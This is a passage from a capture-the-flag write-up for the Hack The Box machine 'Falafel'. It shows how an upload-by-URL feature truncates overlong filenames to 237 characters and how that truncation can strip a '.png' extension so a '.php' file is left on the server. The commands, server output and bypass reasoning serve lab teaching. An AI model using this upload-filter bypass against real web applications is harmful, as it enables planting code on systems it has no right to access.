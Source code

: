 Then remove the last four characters and add a “.png” extension.

```text
root@kali:~/Desktop/htb/falafel# touch aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.png
```

Now we have a file that has a filename with the maximum allowed number of characters on Linux. Upload the file on the application and view the error we get.

```text
<h1>Upload via url:</h1>  
<div>  
<h3>Upload Succsesful!</h3> 
<div>  
<h4>Output:</h4>  
<pre>CMD: cd /var/www/html/uploads/0202-1826_53228651d3b26695; wget 'http://10.10.14.12:5555/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.png'</pre>  
        
<pre>The name is too long, 255 chars total.
Trying to shorten...
New name is aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.
--2020-02-02 18:26:28--  http://10.10.14.12:5555/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.png
Connecting to 10.10.14.12:5555... connected.
HTTP request sent, awaiting response... 200 OK
Length: 0 [image/png]
Saving to: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
0K                                                        0.00 =0s
2020-02-02 18:26:28 (0.00 B/s) - 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa' saved [0/0]
</pre>
```

The name is too long for the application, so the application truncated the filename to the maximum length it can accept. Let’s see what that length is.

```text
ali:~/Desktop/htb/falafel# echo aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa | wc -c
237
```

Alright, so the application only accepts a filename with 237 characters. Anything beyond that gets truncated. So what we’ll do is create a filename of length 237 that ends with the extension “_.php_”, then add the extension “_.png_” to the file. Since this exceeds the file limit, the “_.png_” extension will get truncated, and we’ll be left with our php file.
